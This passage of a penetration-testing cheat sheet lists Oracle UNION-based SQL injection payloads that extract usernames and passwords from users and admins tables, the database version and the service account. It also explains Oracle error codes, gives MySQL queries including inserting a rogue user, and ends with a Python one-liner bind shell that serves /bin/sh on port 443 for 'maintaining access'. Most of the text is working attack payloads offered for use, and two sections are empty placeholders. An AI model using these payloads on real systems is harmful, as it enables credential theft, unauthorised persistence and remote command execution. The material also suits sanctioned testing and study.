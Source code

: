 Get usernames and passwords from the users table.
```sql
' UNION ALL SELECT username,password,null FROM users --
```

Get usernames and passwords from the admins table.
```sql
' UNION ALL SELECT username,password,null FROM admins --
```

Get the database software version.
```sql
' UNION ALL SELECT banner,null,null FROM v$version --
```
Get the database service account name.
```sql
' UNION ALL SELECT user,null,null FROM dual --
```

Execute a database function (ex: user(), database(), etc.).
```bash
# query goes here
```

Execute shell command (ex: find current working directory).
```bash
# query goes here
```

Common Oracle-based SQL Query Errors
| ID | Error | Explanation |
|---|---|---|
|  ORA-00923 | FROM keyword not found where expected | Occurs when you try to execute a SELECT or REVOKE statement without a FROM keyword in its correct form and place. If you are seeing this error, the keyword FROM is spelled incorrectly, misplaced, or altogether missing. In Oracle, the keyword FROM must follow the last selected item in a SELECT statement or in the case of a REVOKE statement, the privileges. If the FROM keyword is missing or otherwise incorrect, you will see ORA-00923. |
| ORA-00933 | SQL command not properly ended | The SQL statement ends with an inappropriate clause. Correct the syntax by removing the inappropriate clauses.
| ORA-00936 | Missing expression | You left out an important chunk of what you were trying to run. This can happen fairly easily, but provided below are two examples that are the most common occurrence of this issue.The first example is the product of missing information in a SELECT statement. The second is when the FROM clause within the statement is omitted. |
| ORA-01785 | ORDER BY item must be the number of a SELECT-list expression | |
| ORA-01789 | Query block has incorrect number of result columns | |
| ORA-01790 | Expression must have same datatype as corresponding expression | Re-write the SELECT statement so that each matching column is the same data type. Try replacing the columns with null. For example, if you only want to see the table_name and the output is 3 columns, use "table_name,null,null" not "table_name,2,3". |

MySQL Database Queries
```sql
SELECT * FROM targetdb.usertbl; # database.table
USE targetdb;
SELECT * FROM usertbl;
```

Add a new user to a SQL database.
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```

### Maintaining Access
#### Python Bind Shell
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```
